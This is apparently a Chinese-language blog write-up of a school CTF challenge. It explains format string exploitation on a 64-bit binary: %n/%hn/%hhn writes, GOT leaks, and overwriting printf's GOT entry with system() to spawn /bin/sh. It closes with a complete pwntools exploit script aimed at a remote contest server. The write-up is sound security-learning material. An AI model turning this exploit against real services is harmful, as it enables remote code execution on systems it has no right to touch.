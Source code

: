 #格式化字符串
题目是老计出的校赛题。给了程序和lib库  
ida启动.jpeg f5  
&emsp;&emsp;可以看出read将用户输入的数据存在栈中，而且printf没有对输出的字符串做格式化，可以通过格式化漏洞对内存进行任意读写；  
  
<img src="/images/20181107/0.png" />   

&emsp;&emsp;首先进行一些简单的尝试，用ida找到调用printf函数处，下断点；  
  
<img src="/images/20181107/1.png" />   
 
---------------------  

####先预习一下格式化字符串的利用:
&emsp;&emsp;%c: 输出字符，配上%n可用于向指定地址写数据。  
&emsp;&emsp;%d: 输出十进制整数，配上%n可用于向指定地址写数据。  
&emsp;&emsp;%x: 输出16进制数据，如%i$x表示要泄露偏移i处4节长的16进制数据，%i$lx表示要泄露偏移i处8字节长的16进制数据，32Bit和64Bit环境下一样。  
&emsp;&emsp;%p：输出16进制数据，与%x基本一样，只是附加了前缀0x，在32bit下输出4字节，在64bit下输出8字节，可通过输出字节的长度来判断目标环境是32bit还是64bit。    
&emsp;&emsp;%s：输出的内容是字符串，即将偏移处指针指向的字符串输出，如%i$s表示输出偏移i处地址所指向的字符串，在32bit和64bit环境下一样，可用于读取GOT表等信息。    
&emsp;&emsp;
%n：将%n之前printf已经打印的字符个数赋值给偏移处指针所指向的地址位置，如%100x%10$n表示将0x64写入偏移10处保存的指针所指向的地址（4字节），而%$hn表示写入的地址空间为2字节，%$hhn表示写入的地址空间为1字节，%$lln表示写入的地址空间为8字节，在32bit和64bit环境下一样。有时，直接写4字节会导致程序崩溃或等候时间过长，可以通过%$hn或%$hhn来适时调整。  
&emsp;&emsp;
%n是通过格式化字符串漏洞改变程序流程的关键方式，而其他格式化字符串参数可用于读取信息或配合%n写数据。  
  
-----
&emsp;&emsp;输入%p,发现打印出的地址为`0x7ffff7dd2683`，而栈顶的地址为`0x7fffffffdf40` &emsp;(这里我不太明白，为什么写入是从rdi指针指向的偏移量为8的栈地址处开始的，然后printf的打印的内容从这里以前偏移量为8的位置开始。。也就是说输入%8p的时候才打印输入的内容。  
  
<img src="/images/20181107/2.png" />     
  
&emsp;&emsp;尝试了一下`%i$s`，打印偏移量为i的所存地址中的内容。由于可以写入内容到栈中，可以构造`%i$p+ padding*(( i-8 )*8-i) + (要读的地址)` 这样的形式来对指定内容进行读取，这就是格式化字符串中所说的任意读。  
  
&emsp;&emsp;然后尝试了一下`%n`,,pwntools中有fmtstr_payload简易化写入payload的构造，但其局限与32位，由于这题是64位的，还得自己手动打payload，由于基础知识的缺少，这里坑了好久。。尝试了许多次%n输入，gdb 中使用dd查看内存却老是看不到自己想要打印的内容，逐渐认识到以下两点:  
  
1. 通过`%{}x%i$n.format()`的格式写入时，是将前面括号内的十进制数字转换位16进制写入，当通过此格式写入第二个时，构造payload要将后面的地址的部分的值减去前面一次输入的值，也就是第二次程序将会把前一次括号内的值加上后一次括号内的值的和的十六进制作为输入的值，这里又是坑多多，当地址值恰好第一次的值小，第二次的值大，相减作出的负值是行不通的，大概是输入的‘-’号不能被机器理解成负号。。。于是构造payload要么写多种情况，，要么就将payload多试几次= =（可能有别的方法我不知道= =#)  
2. 当写入的值太大时程序会发生崩溃，因此可以使用%hn %hnn来分别写入2个字节、1个字节，此题读出的地址值为5字节，可以分为1，2，2来写入，！！注意把要写入的地址拆分成3个后，要把他们写入各自相应的地址内。
  
  
&emsp;&emsp;接下来的思路就是，算出system在内存中的值，然后把printf在got表中的值替换为system的地址，再把`'/bin/sh\x00'`输入作为printf的参数，实际上就是运行了`system('/bin/sh')`的指令。  
&emsp;&emsp;system的值可以用任意写先获得got表中任意函数在内存中的值，然后根据题目给的lib库的相对偏移计算。（这里又有坑）  
&emsp;&emsp; 我第一次是通过泄露printf的值来计算system的地址，调了半天不行，才发现泄露的并不是printf的地址而是栈中后续的内容，构造的`printf("%i$s",printf_got) `源程序中的`printf(&buf,&buf)`
； 所以是`printf("%i$s","aaaa...printf_got" ,"%i$s","aaaa...printf_got")`??  
&emsp;&emsp;总之是打不出来printf的地址，但是换一个函数的地址打就ok  
  
另外学到一个加载题目给的库的方法  
  
<img src="/images/20181107/3.png" />   
  
最后是exp：  
  
    from pwn import *
	#p=process('./pwn6',env={'LD_PRELOAD':'../libc-2.23.so'})


	p=remote("123.206.131.120",10006)

	elf=ELF('./pwn6')
	libc=ELF('libc-2.23.so')
	printf_got=elf.got['printf']
	puts_got=elf.got['puts']
	setbuf_got=elf.got['setbuf']
	puts_offset=libc.symbols['setbuf']-libc.symbols['puts']
	system_offset=libc.symbols['setbuf']-libc.symbols['system']
	print p.recv()
	#gdb.attach(p)
	p.sendline('\x25\x31\x31\x24\x73\x00'+'\x25\x31\x32\x24\x73\x00'+'a'*12+p64(setbuf_got)+p64(printf_got))
	print p.recvline()
	setbuf_addr = u64(p.recvline()[:5]+'\x00\x00\x00')
	log.info('printf:'+hex(setbuf_addr))
	p.sendline('\x25\x31\x31\x24\x73'+'a'*19+p64(puts_got))
	print p.recvline()
	puts_addr = u64(p.recvline()[:5]+'\x00\x00\x00')
	log.info('puts:'+hex(puts_addr))
	log.info('puts_offset:'+hex(setbuf_addr-puts_offset))
	system_addr=setbuf_addr-system_offset
	log.info('system_addr:'+hex(system_addr))
	
	offset_5=(system_addr & 0x0000ffff00000000)>>32
	offset_34=(system_addr& 0x00000000ffff0000)>>16
	offset_12=system_addr & 0x000000000000ffff
	
	
	
	if  offset_12 > offset_34 :
		payload='%{}x%13$hhn'.format(  offset_5  )
		payload+='%{}x%14$hn'.format(   offset_34 - offset_5    )
		payload+='%{}x%15$hn'.format(    offset_12 - offset_34   )
		log.info('positive')
	else:
		payload='%{}x%13$hhn'.format(  offset_5  )
		payload+='%{}x%15$hn'.format(  offset_12 - offset_5  )
		payload+='%{}x%14$hn'.format(    offset_34 - offset_12    )
		log.info('negative')
	
	top=len(payload)
	payload+=(40-top)*'a'+p64(printf_got+0x4)+p64(printf_got+0x2)+p64(printf_got)

	#gdb.attach(p)
	raw_input()
	log.info('payload:'+payload)
	p.send(payload)
	p.recv()
	p.sendline('\x00\x00/bin/sh\x00')
	p.interactive()



最后还有一个要注意的地方，，最后发送的参数这里是`'\x00\x00/bin/sh\x00'`，前面放了几个‘垫片’，是因为说找不到in/sh啥的，估计是偏移的问题，虽然能拿到shell，但是使用次数仅在他的循环次数内，就酱紫。